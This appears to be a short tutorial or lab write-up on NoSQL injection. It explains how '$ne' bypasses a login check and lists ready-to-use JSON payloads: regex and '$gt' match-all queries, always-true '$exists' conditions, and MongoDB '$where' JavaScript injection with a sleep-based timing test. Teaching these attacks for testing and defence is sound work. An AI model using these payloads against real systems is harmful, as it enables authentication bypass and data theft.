


# NoSQL Injection

NoSQL Injection is an injection attack similar to classic SQL injection, but it targets NoSQL databases (example MongoDB, CouchDB, Cassandra, DynamoDB, Redis) commonly used in modern APIs, especially those built with Node.js, Express, or other JavaScript-based backends. Unlike traditional SQL databases that use structured query languages, NoSQL databases often store data in flexible formats like JSON/BSON documents. APIs frequently accept JSON input directly from clients and pass it (or parts of it) into NoSQL queries. If this input is not properly sanitized, attackers can manipulate the query logic which leading to NoSQL injection

Here in our endpoint there exist NoSQL vulnerabilities and can exploited using `$ne`

$ne means "not equal". The query becomes: password != null -> matches any user with a password field (almost all users).Often bypasses login entirely





The common payloads of NoSQLi are

```
# retrieve all matched data

{
  "username": { "$regex": ".*" },
  "password": { "$regex": ".*" }
}

{
  "username": "admin",
  "password": { "$gt": "" }
}

# Always-True Conditions
{
  "username": { "$eq": "admin" },
  "password": { "$exists": true }
}

# JavaScript Injection (MongoDB-specific)
# If the backend uses $where or evaluates JavaScript:JSON{
  "$where": "function() { return true; }"
}
# Or more dangerously:JSON
{
  "$where": "this.password == '' || sleep(5000)"
}
```